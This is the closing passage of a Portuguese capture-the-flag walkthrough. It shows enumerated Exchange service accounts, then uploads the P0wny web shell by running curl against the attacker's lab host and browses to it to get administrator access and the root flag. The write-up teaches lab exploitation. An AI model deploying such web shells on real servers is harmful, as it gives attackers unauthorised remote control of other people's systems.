 ```
index: 0x2078 RID: 0x46a acb: 0x00020011 Account: SM_75554ef7137f41d68	Name: Microsoft Exchange Federation Mailbox	Desc: (null)
index: 0x2075 RID: 0x467 acb: 0x00020011 Account: SM_9326b57ae8ea44309	Name: Microsoft Exchange	Desc: (null)
index: 0x2076 RID: 0x468 acb: 0x00020011 Account: SM_b1b9e7f83082488ea	Name: Discovery Search Mailbox	Desc: (null)
index: 0x2074 RID: 0x466 acb: 0x00020011 Account: SM_bb030ff39b6c4a2db	Name: Microsoft Exchange	Desc: (null)
index: 0x2077 RID: 0x469 acb: 0x00020011 Account: SM_e5b6f3aed4da4ac98	Name: Microsoft Exchange Migration	Desc: (null)
```
Nessa ocasião, podemos enviar o shell como convidado e acessar como administrador.

No diretório ```C:\xampp\htdocs>```, envie o P0wny Shell.

```
curl http://10.10.14.159:8080/shell.phar -o shell.php
```

Após isso, acesse ```https://10.10.11.241/shell.php``` e você poderá acessar como administrador e encontrar a flag root.

![](https://i.imgur.com/vkVb7Il.png)

Com isso, chegamos ao final de mais uma máquina! Lembre-se, todo o processo é bastate árduo e tentei ao máximo realizar de maneira didática! Até a próxima!

![](https://i.imgur.com/ptEpqXs.png)

